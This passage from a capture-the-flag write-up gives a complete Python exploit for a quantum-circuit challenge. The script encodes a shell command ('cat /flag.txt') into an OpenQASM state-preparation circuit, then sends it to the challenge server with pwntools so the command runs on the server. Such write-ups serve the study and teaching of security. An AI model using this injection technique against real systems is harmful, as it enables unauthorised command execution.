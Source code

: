 
## Putting things together: 

With our amazing plan, we can now program this exploit in Python. Voila! it works. The exact command took a bit of sleuthing around the directories of the shell but the flag ended up being in the root directory of the server, so we can easily use the `cat` command to print the contents of `flag.txt` to the shell. 

`Exploit.py`

```python
from pwn import *
import numpy as np
from qiskit import QuantumCircuit
from qiskit.circuit.library import StatePreparation

WIRES = 5

# From server.py
# Produces resulting state vector and normalization value from a given message
# CONSTRAINT: len(msg) <= 25 
def normalization(msg):
    assert(len(msg) <= WIRES**2)
    state = np.array([ord(c) for c in msg.ljust(2**WIRES, ' ')])
    norm = np.linalg.norm(state)
    state = state / norm
    return (state, norm)

# Converts a given message/command into an OpenQASM circuit and its 
# normalization value.
def command_to_qasm(msg):
    # Find the state vector of the original command to reverse
    given_sv, given_n = normalization("echo 'Hello, world!'")
    # Generate target state vector and normalization of exploit input cmd
    target_output_sv, target_n = normalization(msg)
    # Create an empty 5-qubit circuit
    qc = QuantumCircuit(WIRES, name="Exploit Circuit")
    # Add rotation gates to transform from ground state to target state vector
    qc.append(StatePreparation(target_output_sv), range(WIRES))
    # Add rotations that offset any changes that will be done by the server's echo circuit
    qc.append(StatePreparation(given_sv).inverse(), range(WIRES))
    # convert the circuit to an OpenQASM circuit
    qasm_string = qc.qasm()

    return qasm_string, target_n

def main():
    
    # The remote server is inactive now. You can run this as a process on your local desktop env
    r = remote('schrodingers-cat.chal.uiuc.tf', 1337)
    qasm_string, normalization_value = command_to_qasm("cat /flag.txt")
    print(r.sendlineafter(b"Please type your OpenQASM circuit as a base64 encoded string:", 
                          b64e(qasm_string.encode()).encode()).decode('utf-8'))
    print(r.sendlineafter(b"Please enter your normalization constant (precision matters!):", 
                          str(normalization_value).encode()))
    r.interactive()
    r.close()

if __name__ == '__main__':
    main()

```
